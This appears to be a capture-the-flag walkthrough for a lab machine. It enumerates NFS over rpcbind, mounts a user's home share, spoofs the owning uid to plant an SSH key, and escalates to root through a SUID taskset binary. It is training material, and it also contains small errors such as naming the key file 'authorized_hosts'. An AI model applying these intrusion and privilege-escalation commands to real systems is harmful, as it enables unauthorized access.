

> ssh,nfs

# Ports

* **111** : rpcbind running with nfs_acl, nlockmgr, mountd services.
* **22** : SSH
### Port 111, 22 are used for exploiting

# 111
1. nfs_acl at 2049, mountd at 37101,37387,50391 and nlockmgr at 41921
2. rpcbind port can be used to access the nfs_acl runnig at 2049
3. `showmount -e 10.10.10.10` gives `/home/peter` so we have access to the home folder of the peter user.
4. Running nmap scripts for nfs against 111 gives additional info regarding the fileshare.
`nmap -sC --scripts="nfs-ls,nfs-showmount,nfs-stat" -p 111 10.10.10.10` 

5. mounting the share using `mount -t nfs 10.10.10.10:/home/peter /mnt/linNFS`

# EXPLOITATION

As we have access to home directory of peter and their is also an ssh server running, we can create the 'authorized_hosts' file of the ssh and add our own public key to it.
But since only the user with uid 1005 is allowed write operations in the folder, we need to add a user to our system with a uid 1005.
`useradd --uid 1005 linuser` to create the new user with uid 1005. Then switch to linuser with `su linuser`

The other directories in the folder are either empty or doesn't have interesting info.

So we create the folder .ssh inside peter's home directory and create a file named `authorized_hosts`. This file holds public keys of authorized hosts.

If you already have an ssh public-private key pair, copy the content of public key file from `~/.ssh/id_rsa.pub` and append it to the `authorized_hosts` file we created inside peter's home folder.
To generate public-private key pair `ssh-keygen`, You can find your keys inside your home folder's .ssh directory.
Make sure the permissions to .ssh folder and the authorized_keys file are either 700, 755.

ssh into the remote machine by `ssh -i .ssh/id_rsa 10.10.10.10` by using our private key.

# Actions in the low privilege shell
1. `find / -perm -u=s -type f 2>/dev/null` , to find SUID enabled binaries.
2. We find `taskset` have SUID enabled.
3. So we get root by `taskset 1 /bin/sh -p`   [Read](https://gtfobins.github.io/gtfobins/taskset/)

We are root
